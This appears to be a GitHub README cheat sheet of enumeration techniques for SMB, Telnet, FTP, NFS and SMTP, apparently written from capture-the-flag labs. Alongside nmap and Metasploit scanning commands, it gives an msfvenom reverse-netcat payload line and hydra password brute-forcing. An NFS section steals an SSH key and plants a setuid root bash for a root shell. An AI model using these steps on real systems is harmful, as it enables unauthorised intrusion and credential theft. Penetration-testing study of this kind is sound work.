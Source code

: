 # Enumeration-Techniques
## SMB Enumeration
**1. Scan the network and find out port with** : `nmap -sV -p <port> <ip>` **(default port 445)**\
**2. After that enumerate smb server with Enum4linux** : `enum4linux [options] <ip>`
<details>
  <summary>Enum4linux options</summary>
  <p>-U  get userlist</p>
  <p>-M  get machine list</p>
  <p>-N   get namelist dump (different from -U and-M)</p>
  <p>-S  get sharelist</p>
  <p>-P  get password policy information</p>
  <p>-G  get group and member list</p>
  <p>-a  all of the above (full basic enumeration)</p>
</details>

### Other Enumeration Techniques (unix)
  `nmap -v -p 139,445 -oG smb.txt <ip range>` \
  `nbt scan -r <ip/range>`\
  `nmap -v -p 139,445 –script smb-os-discovery <ip>`
  
**Extra** `smbclient //IP/SHARE` **(for connecting)**

  
### On Windows
  `Net view \\dc01 /all`


## Telnet Enumeration
**1. Scan the network to identify the port (default 23)** : `nmap -sV -p- <ip>` **(scan all ports)** \
**Can use `--stats-every 5s` for checking progress in nmap if you're impatient like me. ;)**\
**Extra** : `sudo tcpdump ip proto \\icmp -i tun0` **use this for starting a tcpdump listner to identify any kind of backdoor etc.**

<h3>Reverse Shell using netcat</h3>

**MSFVenom payload generate** : `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`


## FTP Enumeration
**1. Scan the network like always (use nmap my choice)**\
**2. Try default username & password combinations** [Seclists FTP Default Credentials](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)\
**3. Bruteforce username and passwords using hydra**

**Usage** : `hydra -l <username> -P passwordslist.txt ftp://<ip>`\
**Usage** : `hydra -L usernames.txt -P passwordlist.txt ftp://<ip>:port`

## NFS Enumeration
**1. Scanning target all ports with nmap (agressive scan use with cation)** : `nmap -A -p- <target ip> --stats-every 5s`\
**2. Create a mount point to access shared folder** : `mkdir -p /tmp/mount`\
**3. Listing NFS share** : `/usr/sbin/showmount -e <ip>`\
**4. Mount into your system** : `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

<details>
  <summary>Privilege Escalation</summary>
  
1. Go to mount point here mine is `/tmp/mount` and the shared folder was `cappucino` enter the folder
2. Search for `.ssh/id_rsa` copy that to your system and login using user\
Extra : **Download NFS files using scp** : `scp -i id_rsa username@<target ip>:/bin/bash ~/Downloads/bash`
3. **Download manually** : [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
4. On another tab go to **/tmp/mount/cappucino** on attacker machine and copy the bash shell downloaded previous line [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
5. change the bash file ownership to root using : `sudo chown root bash`
6. Give the bash shell special and executable privilege with : `sudo chmod +xs bash`
7. Login to ssh with the user and check for the bash file you've put just now and execute using : `./bash -p`
8. Bam !! You got the root shell 😅 ?
</details>

## SMTP Enumeration
**1. As always find out the port SMPT running on using (default port 25)** : `nmap -sV -p- <target ip>` or `nmap -A -p- <target ip>`\
  **Important for next step: Install metasploit-framework for using available modules for enumeration and exploitation**\
  **`sudo apt install metasploit-framework` or refer to this [Metasploit-Framework](https://github.com/rapid7/metasploit-framework?tab=readme-ov-file)**\
**2. Start Metasploit-Framework using** : `msfconsole`\
**3. Search for module with** : `search smpt_version`\
**4. Select the module by typing** : `use 0` **0 is the index number** or `use auxiliary/scanner/smtp/smtp_version`\
**5. Use** : `info` **or** `options` **to see required options needed to be set**\
**6. Use (in this case only needed to be rhosts becasuse port was same as 25, change if needed) :** `set rhost <target ip>`\
**7. Run the exploit using :** `run` or `exploit`\
Got the info !! 😸

<h3>Let's Try other modules for more info</h3>

**1. Search another module** : `search smtp_enum` and select it using `use 0` or `use auxiliary/scanner/smtp/smtp_enum`\
**2. Set required options** : `set rhosts <target ip>` & `set user_file /path/top-usernames-shortlist.txt`\
  **Download the username file from here**: [usernames/seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt)\
**3. Run the exploit:** `run` or `exploit`\
**Yay !! Got the username [administrator]()**
